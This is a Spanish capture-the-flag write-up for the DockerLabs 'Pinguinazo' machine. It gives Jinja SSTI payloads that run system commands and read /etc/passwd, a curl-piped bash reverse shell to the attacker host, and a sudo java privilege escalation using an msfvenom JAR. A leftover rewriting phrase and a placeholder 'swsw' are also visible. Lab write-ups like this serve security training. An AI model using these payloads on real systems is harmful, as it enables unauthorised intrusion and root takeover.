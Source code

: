 # Máuquina pinguinazo

Enlace a la máquina -> [Dockerlabs](https://mega.nz/file/xeNVTA5B#RXNj1lKF2Gab1HwAWE1SdMtb8CFPJh4le7jsSWjZ7qc)

![imagen](https://github.com/user-attachments/assets/f59831aa-e3cb-4b74-b7c6-8db50066bf78)


- **Nombre de la Máquina:** Pinguinazo
- **Sistema Operativo:** Linux
- **Dificultad:** Easy
- **Plataforma:** DockerLabs
- **Dirección IP:** 172.17.0.2
- **Vulnerabilidades Explotadas:**
  - swsw

 
Aquí tienes el texto reescrito con otras palabras:

## Reconocimiento y Enumeración
Comenzamos realizando un escaneo general con nmap sobre la IP de la máquina objetivo para identificar los puertos abiertos.

```bash
sudo nmap -p- -sS --min-rate 5000 -v -n -Pn 172.17.0.2 -oN escaneo.txt
```

![imagen](https://github.com/user-attachments/assets/e686028a-5f9b-414e-846b-dc082e9cdc1a)

Nos muestra que el puerto 5000 está abierto. Realizamos un análisis más detallado para determinar qué servicio está ejecutándose en ese puerto.

```bash
sudo nmap -p 5000 -sCV 172.17.0.2 -oN targeted.txt
```

![imagen](https://github.com/user-attachments/assets/7537dd41-333f-4089-b7a3-09d00afe69be)

- Puerto 5000: servicio upnp?

El primer paso es examinar los vectores de entrada disponibles en el puerto 5000. Descubrimos que es una plantilla generada con Jinja.

![imagen](https://github.com/user-attachments/assets/d3fb3e36-a6f4-4e43-81c1-09dd68106ff4)

Continuamos con el análisis y descubrimos una página web con un formulario sencillo que solicita cierta información. Vamos a verificar si es vulnerable a la inyección de HTML. Escribimos el siguiente código en el campo PinguNombre:

```html
<marquee>Pwned</marquee>
```

Y comprobamos que es vulnerable.

![imagen](https://github.com/user-attachments/assets/6112910f-5514-4e04-b74b-7fada8b19fe2)

Intentamos hacer un SSTI (Server Side Template Injection)
`{{5*5}}`

![imagen](https://github.com/user-attachments/assets/24f0e930-aabd-4372-9f65-d6d64b5a67b1)

Y vemos que es vulnerable a este ataque.

Ahora es momento de ejecutar comandos de Linux a través de la vulnerabilidad detectada. Al navegar por Internet, encontramos varias páginas que nos ofrecen payloads y comandos ya listos para usar.

En esta página [web](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) encontramos varios payloads útiles.

Vamos a ejecutar uno para determinar qué usuario somos:

```html
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

![imagen](https://github.com/user-attachments/assets/45211a9d-b405-4d3d-95c8-587ec6ab50e8)

Ejecutando el comando `id` vemos que pertenecemos al grupo pinguinazo.

También podremos leer el `/etc/passwd`.

```html
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /etc/passwd').read() }}
```

![imagen](https://github.com/user-attachments/assets/c3ff9fb7-be24-4d92-991b-e1aabba1438c)

Ahora que podemos ejecutar comandos a nivel de sistema, es momento de establecer una reverse shell para obtener acceso completo al servidor.

Primero, abrimos un puerto en nc en modo de escucha con el siguiente comando en nuestra máquina atacante:

```bash
nc -nlvp 443
```

![imagen](https://github.com/user-attachments/assets/f76d4ab8-a266-412a-a3c5-9ff990d8beaf)

Estamos tratando de obtener acceso completo al servidor a través de una reverse shell. Sin embargo, debido a las restricciones de la plantilla Jinja, no podemos ejecutar directamente una reverse shell con el comando típico. Por lo tanto, creamos un script bash en nuestra máquina atacante y lo servimos a través de HTTP para que el servidor vulnerable lo descargue y ejecute.

### Pasos detallados:

1. **Creación del script de reverse shell:**
   Creamos un script básico en bash con el siguiente contenido:
   
   ```bash
   bash -c 'exec bash -i &>/dev/tcp/172.17.0.1/443 <&1'
   ```
   Guardamos este script como `reverse_shell.sh`.

   ![imagen](https://github.com/user-attachments/assets/e88e1aa5-545e-4ed6-ac51-0deedd11c2de)

2. **Servidor HTTP:**
   Usamos Python para abrir un servidor HTTP en el puerto 80 y poder compartir el script. Esto se hace ejecutando el siguiente comando en nuestra máquina atacante:
   
   ```bash
   python3 -m http.server 80
   ```

3. **Descargar y ejecutar el script desde el servidor vulnerable:**
   Utilizamos el siguiente comando en la web vulnerable para descargar y ejecutar nuestro script de reverse shell:

   ```html
   {{ self.__init__.__globals__.__builtins__.__import__('os').popen('curl http://172.17.0.1/reverse_shell.sh | bash').read() }}
   ```

### Explicación de los pasos:

1. **Script de reverse shell:**
   - El script bash contiene el comando necesario para abrir una reverse shell y conectar de vuelta a nuestra máquina atacante en el puerto 443. 
   - Esto nos permite ejecutar comandos en el servidor víctima desde nuestra máquina.

2. **Servidor HTTP con Python:**
   - Servimos el script a través de HTTP utilizando el módulo `http.server` de Python. Esto es conveniente porque casi todas las distribuciones de Linux tienen Python preinstalado, y es fácil de usar.
   - El servidor HTTP permite que el servidor vulnerable descargue nuestro script cuando solicitamos la URL `http://172.17.0.1/reverse_shell.sh`.

3. **Descarga y ejecución del script:**
   - En lugar de intentar ejecutar directamente una reverse shell (lo cual podría ser bloqueado o restringido por la configuración del servidor), descargamos el script desde nuestra máquina atacante y lo ejecutamos.
   - Esto nos da una forma de superar las restricciones de la plantilla Jinja y obtener acceso completo al servidor.

Siguiendo estos pasos, logramos establecer una conexión de reverse shell y obtener control sobre el servidor objetivo, eludiendo las restricciones iniciales impuestas por el entorno de la plantilla Jinja.

![imagen](https://github.com/user-attachments/assets/65206fa1-5c61-438e-9ef8-aa6f884352aa)

## Escalada de privilegios
Para realizar la escalada de privilegios en el servidor comprometido, aprovechamos los permisos de ejecución del comando `java` como usuario root sin requerir contraseña.

### Paso a paso para la escalada de privilegios:

1. **Verificación de permisos:**
   Al ejecutar `sudo -l`, confirmamos que tenemos la capacidad de ejecutar `java` como root sin necesidad de ingresar contraseña.

   ![imagen](https://github.com/user-attachments/assets/19cbc6a4-8ea7-4397-ba2b-6ff652a631df)

2. **Investigación y preparación:**
   Investigamos en una fuente confiable [web](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-java-privilege-escalation/) que detalla cómo podemos escalar privilegios usando `sudo java`.

3. **Creación del archivo JAR malicioso:**
   Utilizamos `msfvenom` para generar un archivo JAR que contenga un payload de reverse shell. Esto se logra con el siguiente comando:
   ```bash
   msfvenom -p java/shell_reverse_tcp LHOST=172.17.0.1 LPORT=4444 -f jar -o shell.jar
   ```

4. **Configuración de la reverse shell:**
   Configuramos nuestra máquina atacante para escuchar conexiones entrantes en el puerto 4444:
   ```bash
   nc -nlvp 4444
   ```

5. **Servir el archivo JAR a través de HTTP:**
   Iniciamos un servidor HTTP en nuestra máquina atacante para que el servidor vulnerable pueda descargar el archivo JAR:
   ```bash
   python3 -m http.server 81
   ```
   En la máquina víctima, descargamos el archivo JAR utilizando `curl`:
   ```bash
   curl http://172.17.0.1/shell.jar -o shell.jar
   ```

6. **Ejecución del exploit:**
   Finalmente, ejecutamos el comando `java` con privilegios de sudo para ejecutar el archivo JAR malicioso desde la ubicación temporal:
   ```bash
   sudo /usr/bin/java -jar /tmp/shell.jar
   ```

7. **Obtención de acceso root:**
   Con el comando anterior, logramos establecer una conexión de reverse shell como usuario **root** en nuestra máquina atacante, que está a la escucha en el puerto 4444.

   ![imagen](https://github.com/user-attachments/assets/79a596bb-58a0-4b45-b219-dbaa9977e2a1)

### Explicación:
- **Paso 1:** Verificamos los permisos de sudo para `java` que nos permiten ejecutar comandos como root.
- **Paso 2:** Investigamos y preparamos el exploit siguiendo las instrucciones de una fuente confiable.
- **Paso 3 y 4:** Creamos un archivo JAR malicioso con un payload de reverse shell y configuramos nuestra máquina para recibir la conexión entrante.
- **Paso 5:** Utilizamos un servidor HTTP para servir el archivo JAR malicioso al servidor vulnerable.
- **Paso 6:** Ejecutamos el comando `java` con sudo para iniciar la reverse shell desde el archivo JAR.
- **Paso 7:** Confirmamos que la escalada de privilegios fue exitosa al recibir una shell como root en nuestra máquina atacante.

Siguiendo estos pasos detallados, conseguimos obtener acceso root en el servidor mediante una escalada de privilegios utilizando `sudo java`. Este método nos permitió sortear las restricciones de seguridad y obtener el control completo del sistema comprometido.
